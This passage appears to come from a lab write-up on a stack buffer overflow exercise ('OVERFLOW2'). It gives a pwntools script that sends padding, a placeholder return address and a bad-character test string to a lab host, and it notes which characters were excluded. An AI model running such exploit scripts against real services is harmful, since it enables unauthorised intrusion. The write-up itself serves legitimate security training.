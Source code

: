 This is very strange! Maybe the bytes aren't sent correctly and are being written to memory incorrectly. So I made a small change to my code.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
offset = 634
retn = "BBBB"

value = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

payload = command + ("A" * offset) + retn + value

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

r.send(payload)
```

By removing the `input_value = payload.encode()` line and sending the `payload` variable directly, the result is quite different. I repeated the process excluding the `\x00`, `\x23` and `\x3c` values and this is the memory dump.

<div><p align="center"><img  src="img/dump2.png" /></div>
